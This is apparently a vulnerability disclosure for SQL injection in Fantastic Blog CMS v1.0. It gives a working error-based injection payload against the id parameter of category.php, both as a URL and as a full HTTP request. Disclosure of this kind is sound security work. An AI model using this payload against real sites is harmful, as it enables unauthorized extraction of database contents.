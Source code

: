 # Fantastic Blog Cms v1.0 by Ronald Ngoda has SQL injection

vendors: https://www.sourcecodester.com/php/12258/fantastic-blog-cms-php.html

Vulnerability File: /fantasticblog/category.php

Vulnerability location: /fantasticblog/category.php?id=, id

[+] Payload: /fantasticblog/category.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /fantasticblog/category.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167525083-19af8714-21a6-4659-a905-d95db502f99f.png)
